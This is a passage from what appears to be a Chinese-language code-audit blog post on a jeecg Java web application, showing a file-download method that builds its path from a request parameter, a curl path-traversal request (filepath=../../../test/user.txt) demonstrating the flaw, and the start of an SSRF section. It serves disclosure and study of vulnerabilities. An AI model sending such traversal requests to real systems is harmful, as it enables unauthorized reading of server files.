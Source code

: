 ```java

while ((len = inputStream.read(buf)) > 0) {

outputStream.write(buf, 0, len);

}

response.flushBuffer();

} catch (Exception e) {

logger.info("--通过流的方式获取文件异常--"+e.getMessage());

}finally{

if(inputStream!=null){

inputStream.close();

}

if(outputStream!=null){

outputStream.close();

}

}

}
```

关键代码在于

String dbpath = request.getParameter("filepath"); String imgurl = localPath+"/"+dbpath; inputStream = new BufferedInputStream(new FileInputStream(imgurl));

路径是拼接的方式

**漏洞利用方式**

> curl -i http://127.0.0.1:8081/jeecgFormDemoController/filedown.do?filepath=../../../test/user.txt -H "Cookie: JSESSIONID=942EC68A6CD4D7188A7E0E30737D7347; Hm\_lvt\_098e6e84ab585bf0c2e6853604192b8b=1698886034; i18n\_browser\_Lang=zh-cn; JEECGINDEXSTYLE=fineui; ZINDEXNUMBER=1990; Hm\_lpvt\_098e6e84ab585bf0c2e6853604192b8b=1698886042"

![](https://i-blog.csdnimg.cn/blog_migrate/b6ab0c2558c053aa1a84ccd19696ba8b.png)

##### SSRF漏洞

在“com.jeecg.demo.controller. JeecgFormDemoController”类下，“testInterface”方法。

```java
@RequestMapping(params = "interfaceTest")

@ResponseBody

public AjaxJson testInterface(HttpServletRequest request,HttpServletResponse response) {

AjaxJson j=new AjaxJson();

try {

String serverUrl = request.getParameter("serverUrl");

String requestBody = request.getParameter("requestBody");
```